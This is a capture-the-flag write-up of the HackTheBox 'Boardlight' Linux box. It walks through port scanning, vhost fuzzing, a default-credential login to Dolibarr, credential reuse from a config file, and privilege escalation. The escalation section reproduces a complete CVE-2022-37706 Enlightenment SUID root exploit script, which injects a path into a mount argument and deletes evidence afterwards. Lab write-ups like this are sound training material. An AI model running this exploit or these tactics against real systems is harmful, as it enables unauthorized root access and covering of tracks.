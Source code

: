 +++
title = 'Boardlight'
description = 'Easy Linux box'
date = 2024-08-24T16:50:47-04:00
draft = true
tags = ["linux"]
category = ["htb"]
summary = "HTB - Linux - Easy"
+++



A Really easy HTB box that looks into vhost enumeration and a CVE 2023-30253.


# Enum

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 06:2d:3b:85:10:59:ff:73:66:27:7f:0e:ae:03:ea:f4 (RSA)
|   256 59:03:dc:52:87:3a:35:99:34:44:74:33:78:31:35:fb (ECDSA)
|_  256 ab:13:38:e4:3e:e0:24:b4:69:38:a9:63:82:38:dd:f4 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

## 80
```bash
┌──(fish㉿kali)-[~/htb/BoardLight]
└─$ whatweb $IP     
http://10.10.11.11 [200 OK] Apache[2.4.41], Bootstrap, Country[RESERVED][ZZ], Email[info@board.htb], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.11.11], JQuery[3.4.1], Script[text/javascript], X-UA-Compatible[IE=edge]

```



This took a while :( but have to check for vhosts when you have a domain.


We can us ffuf to do this:
```bash
┌──(fish㉿kali)-[~/htb/BoardLight]
└─$ ffuf -w /opt/SecLists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u http://board.htb -H 'Host: FUZZ.board.htb' -fs 15949
```



And we find one! `crm.board.htb`, we need to add it to our hosts file then we can browse to it directly


Looking through the source, we see some comments but I don't think these will help us.


```html
<!-- authentication mode = dolibarr -->
<!-- cookie name used for this session = DOLSESSID_3dfbb778014aaf8a61e81abec91717e6f6438f92 -->
<!-- urlfrom in this session =  -->

<!-- Common footer is not used for login page, this is same than footer but inside login tpl -->
```

A google search shows multiple exploits and a CVE(2023-30253):



---
# Foothold


We found the site is running a vulnerable version of Dolibarr a CRM with a RCE exploit available but it requires a valid username and password.

Trying the low hanging fruit `admin:admin` gets us in and we can run the first github exploit result after reading through the python code.


We're going to want to look for a config file because we know the app interfaces with mysql we might be able to find some hardcoded creds, linpeas doesn't pick up anything but if we look at the documentation for dolibarr we find it at `/var/www/html/crm.board.htb/htdocs/conf/conf.php`

https://wiki.dolibarr.org/index.php?title=Configuration_file

And we get a potential password:


`serverfun2$2023!!`

We could potentially log into the database and look for anything else interesting or we can check for password re-use. We did find another user on  the box `larissa`. 



Logging in with the cred above as larissa works!


## Exploits
#CVE-2023-30253
https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253


--- 
# PrivEsc

Running linpeas again finds some interesting SUID binaries


```bash
-rwsr-xr-x 1 root root 27K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys (Unknown SUID binary!)
-rwsr-xr-x 1 root root 15K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_ckpasswd (Unknown SUID binary!)
-rwsr-xr-x 1 root root 15K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_backlight (Unknown SUID binary!)
-rwsr-xr-x 1 root root 15K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/modules/cpufreq/linux-gnu-x86_64-0.23.1/freqset (Unknown SUID binary!)

```


```bash

#!/usr/bin/bash
# Idea by MaherAzzouz
# Development by nu11secur1ty

echo "CVE-2022-37706"
echo "[*] Trying to find the vulnerable SUID file..."
echo "[*] This may take few seconds..."

# The actual problem
file=$(find / -name enlightenment_sys -perm -4000 2>/dev/null | head -1)
if [[ -z ${file} ]]
then
	echo "[-] Couldn't find the vulnerable SUID file..."
	echo "[*] Enlightenment should be installed on your system."
	exit 1
fi

echo "[+] Vulnerable SUID binary found!"
echo "[+] Trying to pop a root shell!"
mkdir -p /tmp/net
mkdir -p "/dev/../tmp/;/tmp/exploit"

echo "/bin/sh" > /tmp/exploit
chmod a+x /tmp/exploit
echo "[+] Welcome to the rabbit hole :)"

echo -e "If it is not found in fstab, big deal :D "
${file} /bin/mount -o noexec,nosuid,utf8,nodev,iocharset=utf8,utf8=0,utf8=1,uid=$(id -u), "/dev/../tmp/;/tmp/exploit" /tmp///net

read -p "Press any key to clean the evedence..."
echo -e "Please wait... "

sleep 5
rm -rf /tmp/exploit
rm -rf /tmp/net
echo -e "Done; Everything is clear ;)"
```

We can create a exploit.sh with the exploit code, make it executable with `chmod +x `, and run it to get root.




## Exploits
https://raw.githubusercontent.com/nu11secur1ty/CVE-mitre/main/CVE-2022-37706/docs/exploit.sh
#suid

---



